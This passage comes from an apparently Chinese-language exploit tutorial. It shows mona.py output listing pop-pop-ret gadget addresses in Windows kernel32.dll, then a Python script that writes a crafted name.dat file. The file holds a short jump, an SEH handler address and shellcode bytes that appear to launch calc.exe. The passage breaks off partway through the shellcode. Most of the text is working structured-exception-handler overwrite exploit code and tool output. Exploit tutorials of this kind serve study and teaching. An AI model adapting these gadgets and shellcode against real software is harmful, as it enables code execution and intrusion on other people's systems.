    0x75dfda42 |   0x75dfda42 (b+0x0003da42)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e45960 |   0x75e45960 (b+0x00085960)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e47b36 |   0x75e47b36 (b+0x00087b36)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e4a53f |   0x75e4a53f (b+0x0008a53f)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e5e294 |   0x75e5e294 (b+0x0009e294)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e65641 |   0x75e65641 (b+0x000a5641)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e6a121 |   0x75e6a121 (b+0x000aa121)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e77bf1 |   0x75e77bf1 (b+0x000b7bf1)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    0x75e7930d |   0x75e7930d (b+0x000b930d)  : pop ebx # pop ebp # retn 10h |  {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
    ... Please wait while I'm processing all remaining results and writing everything to file...
    [+] Done. Only the first 20 pointers are shown here. For more pointers, open findwild.txt...
        Found a total of 396 pointers    
    
    [+] This mona.py action took 0:00:12.400000 
    

我们选择第二个地址

    
    
    0x75dfd75d |   0x75dfd75d (b+0x0003d75d)  : pop esi # pop ebx # retn   
    

![](http://static.wooyun.org//drops/20151116/2015111606071883461220.png)

用来创建文件name.dat的Python代码如下：

    
    
    #!python
    with open('c:\\name.dat', 'wb') as f:
        jmp = '\xeb\x06\x90\x90'
        handler = '\x5d\xd7\xdf\x75'
        shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
                "\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
                "\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
                "\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
                "\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
                "\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
                "\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
                "\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
                "\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
                "\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
                "\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
                "\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
                "\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
                "\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
                "\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
                "\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
                "\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+